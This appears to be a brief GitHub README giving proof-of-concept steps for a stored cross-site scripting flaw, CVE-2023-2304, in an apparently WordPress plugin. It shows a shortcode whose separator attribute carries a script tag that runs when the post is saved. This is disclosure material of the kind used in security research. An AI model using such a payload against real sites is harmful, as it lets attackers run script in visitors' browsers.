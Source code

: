 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2304

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Stored XSS

* Create a post and create a shortcode with the following: `[post_favorites separator="<script>alert(1);</script>"]`
* Save it, the XSS will now trigger!

![Screenshot1](screenshot1.png)
![Screenshot2](screenshot2.png)
